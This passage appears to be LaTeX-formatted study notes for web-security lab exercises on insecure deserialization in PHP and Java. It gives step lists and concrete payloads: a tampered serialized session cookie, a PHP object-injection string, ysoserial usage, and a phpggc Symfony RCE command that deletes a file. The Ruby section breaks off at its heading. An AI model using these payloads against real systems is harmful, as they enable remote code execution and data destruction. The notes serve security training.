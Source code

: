 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
1. Delete additional user.
2. For the POST /my-account/delete request change deserialized session cookie to:
s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
3. Send it.
\end{Verbatim}

\subsubsection{3. Arbitrary object injection in
PHP}\label{3-arbitrary-object-injection-in-php}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
1. Check for /libs/CustomTemplate.php~
2. Find out destruct() method
3. Create next payload:
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
\end{Verbatim}

\subsubsection{4. Exploiting Java deserialization with Apache
Commons}\label{4-exploiting-java-deserialization-with-apache-commons}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
1. Use burp scanner to identify that the serialized object is Java Commons
2. Use ysoserial to create new payload
3. Base64 + URL encode it
\end{Verbatim}

\subsubsection{5. Exploiting PHP deserialization with a pre-built gadget
chain}\label{5-exploiting-php-deserialization-with-a-pre-built-gadget-chain}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
1. Find out php.info
2. Find out Symfony ver and Secret Key
3. Create next payload:
phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
4. Sign it with Secret Key using PHP code
\end{Verbatim}

\subsubsection{6. Exploiting Ruby deserialization using a documented
gadget
chain}\label{6-exploiting-ruby-deserialization-using-a-documented-gadget-chain}
\end{document}
